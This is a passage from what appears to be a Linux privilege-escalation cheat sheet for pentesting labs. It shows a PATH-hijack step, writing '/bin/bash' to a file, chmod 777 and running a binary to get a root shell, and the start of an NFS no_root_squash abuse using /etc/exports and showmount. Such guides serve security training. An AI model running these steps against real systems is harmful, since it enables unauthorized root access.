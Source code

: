 ***

* Create a file to asking for a shell and give it permissions

{% code overflow="wrap" lineNumbers="true" %}
```bash
echo "/bin/bash" > root #Asking for a shell
chmod 777 root
ls -l    #To check it has all permissions
```
{% endcode %}

{% hint style="info" %}
Note that is the same executable we called previously on the _C_ script
{% endhint %}

***

* Run path script to get privileges

{% code overflow="wrap" lineNumbers="true" %}
```bash
./path
#This will return a root shell
```
{% endcode %}

***



## <mark style="color:purple;">Abusing NFS misconfiguration</mark>

* Check NFS configuration

{% code overflow="wrap" lineNumbers="true" %}
```bash
cat /etc/exports
#Example results
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```
{% endcode %}

{% hint style="info" %}
We notice the `no_root_squash` value
{% endhint %}

***

* On the host machine check for mountable shares

{% code overflow="wrap" lineNumbers="true" %}
```bash
showmount -e $targetIP
#Example results
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
```
{% endcode %}

